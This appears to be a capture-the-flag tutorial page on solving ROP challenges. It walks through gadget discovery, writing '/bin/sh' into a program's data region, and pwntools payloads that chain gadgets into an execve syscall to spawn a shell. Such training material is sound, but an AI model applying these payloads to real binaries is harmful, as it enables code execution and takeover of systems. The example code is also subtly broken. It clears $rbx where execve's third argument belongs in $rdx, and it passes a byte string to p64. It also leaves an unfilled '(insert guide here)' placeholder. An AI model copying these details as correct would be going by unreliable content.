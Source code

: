 ```yaml
---
title: How to solve a ROP challenge
---
```


This guide shows you how to solve a ROP challenge.

## Identify available gadgets
The available gadgets in a program usually determines what subcategory of ROP attack you might need to use.

Check for gadgets using `ROPgadget --binary ./vuln | grep "<register>"`
- If there are no easy-to-use `$rax` or `syscall` gadgets, ROP attacks may not be the correct type of attack.
- If there are no easy-to-use `$rdi`, `$rsi` and `$rdx` gadgets, visit the following guides for a more advanced ROP attack.
    - (insert guide here)

## Locating `/bin/sh`
It is possible that `/bin/sh` may already exist as a string in your program. Run `strings ./vuln | grep "/bin/sh"` to check.

If such string exists, skip to [finding the offset to return address](#find-offset-to-return-address)

## Locate empty space for `/bin/sh`
If there is no `/bin/sh` string, you will need to add the string yourself to empty address.

To begin, first find some empty space within the program's address space.
1. Open the program with pwndbg.
2. Ensure that the program pauses as it runs, either through a user input or breakpoint you added.
3. Run the program and `CTRL+C` when you are at the pause
4. Run `vmmap`. Identify the address where the `DATA` "region" starts.
5. View the data region with `x/<number of bytes>x <address>` to view some amount of bytes from the target address onwards, inclusive of the target address.
6. Note down the address you want to add `/bin/sh` into. It should be empty `0x00000000` such that you would not interfere with the program.

![](/src/assets/pwn/guides/rop/vmmap.png)

## Identify "mov" gadget
Afterward, identify a `mov` gadget that you will use.

For example, the gadget `mov qword ptr [rax], rdi; ret` would move the value from `$rdi` to the address at `$rax`.

Note down the address of the `mov` gadget you will use.

## Build payload
You will need to do the following in your payload in no particular order:
1. Set the register that should hold the value to the value
    1. Ensure that the `/bin/sh` string contains the null byte like a string should have.
2. Set the register that should hold the address to the address

Finally, call the `mov` gadget via the address you noted down. Here is an example payload:
```python
payload = b"A"*64
payload += p64(rop.rax.address)
payload += p64(b"/bin/sh\x00")
payload += p64(rop.rdi.address)
payload += p64(BINSH)
payload += p64(MOV_GADGET) # mov qword ptr [rax], rdi; ret
```

## Find offset to return address

Find the offset from your buffer to the return address.

<LinkCard title="Finding offsets to return addresses" href="/pwn/guides/cyclic/" description="Guide to finding offset from a buffer to the return address"/>

## Build payload
You will need to do the following in your payload in no particular order:
- Set `$rax` to `59`/`0x3b`
- Set `$rdi` to the address of a `/bin/sh` string
- Set `$rsi` to `0`/`0x0`
- Set `$rbx` to `0`/`0x0`

Finally, call a `syscall` gadget. Here is an example payload:
```python
payload = b"A"*64
payload += p64(rop.rax.address)
payload += p64(0x3b)
payload += p64(rop.rdi.address)
payload += p64(BINSH)
payload += p64(rop.rsi.address)
payload += p64(0x0)
payload += p64(rop.rbx.address)
payload += p64(0x0)
payload += p64(rop.syscall.address)
```

Here ie an example payload that includes adding the `/bin/sh` string:
```python
payload = b"A"*64
payload += p64(rop.rax.address)
payload += p64(b"/bin/sh\x00")
payload += p64(rop.rdi.address)
payload += p64(BINSH)
payload += p64(MOV_GADGET) # mov qword ptr [rax], rdi; ret

payload += p64(rop.rax.address)
payload += p64(0x3b)
payload += p64(rop.rdi.address)
payload += p64(BINSH)
payload += p64(rop.rsi.address)
payload += p64(0x0)
payload += p64(rop.rbx.address)
payload += p64(0x0)
payload += p64(rop.syscall.address)
```